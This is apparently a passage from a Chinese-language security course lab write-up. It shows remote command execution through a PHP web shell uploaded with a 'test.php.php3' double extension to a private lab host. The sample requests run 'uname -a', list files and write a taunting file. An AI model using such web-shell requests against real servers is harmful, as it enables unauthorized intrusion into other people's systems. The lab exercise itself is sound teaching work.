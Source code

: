      - c. 利用上传`test.php.php3`脚本进行cmd测试
     
        1).查看版本信息
          ```bash
          192.168.56.101/admin/uploads/test.php.php3?cmd=uname -a
          ```
          ![](/网络安全/chap0x07/images/2-7-E-C-1.png)

        2).查看当前目录的内容
          ```bash
          192.168.56.101/admin/uploads/test.php.php3?cmd=ls -u
          ```
          ![](/网络安全/chap0x07/images/2-7-E-C-2.png)
          
        3).创建名为‘haha.txt’的文件，并写入内容
          ```bash
          192.168.56.101/admin/uploads/test.php.php3?cmd=touch haha.txt
          192.168.56.101/admin/uploads/test.php.php3?cmd=echo you are weak > haha.txt
          ```
          ![](/网络安全/chap0x07/images/2-7-E-C-3A.png)
          ![](/网络安全/chap0x07/images/2-7-E-C-3B.png)
          